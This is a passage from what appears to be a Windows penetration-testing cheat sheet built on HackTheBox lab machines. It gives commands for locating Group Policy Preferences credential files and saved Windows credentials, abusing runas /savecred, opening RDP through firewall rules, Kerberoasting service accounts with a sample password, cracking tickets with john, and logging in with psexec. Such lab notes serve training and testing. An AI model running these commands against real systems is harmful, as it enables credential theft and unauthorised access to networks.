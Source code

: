 {% hint style="info" %}
Groups.xml can be found under the below path&#x20;

C:\ProgramData\Microsoft\Group Policy\History{$numbers}\Machine\Preferences\Groups
{% endhint %}

To find more information: [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

### **Finding admin credentials from AppData**

```
dir /a C:\Users\$user\AppData\Roaming\Microsoft\Credentials\
```

### **Running commands as a different user by using runas command**

```
runas /user:ACCESS\Administrator /savecred "cmd.exe C:\Users\Administrator\Desktop\root.txt > C:\Users\security\AppData\Local\Temp\test.txt"
```

### Enable RDP in Windows Target

```
C:\Windows\system32>netsh firewall set service remoteadmin enable 
netsh firewall set service remoteadmin enable
Ok.
C:\Windows\system32>netsh firewall set service remotedesktop enable
netsh firewall set service remotedesktop enable
Ok.
```

### Port 88 - Kerberoasting

Once you have a user shell you can start kerberoasting to get other users' credentials.

Without password

```
python GetUserSPNs.py -request active.htb/SVC_TGS
```

With password

```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

Then try cracking the Kerberos ticket by

```
john GetUserSPNsOutput.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Then login with psexec.py.&#x20;

```
psexec.py administrator@active.htb
```
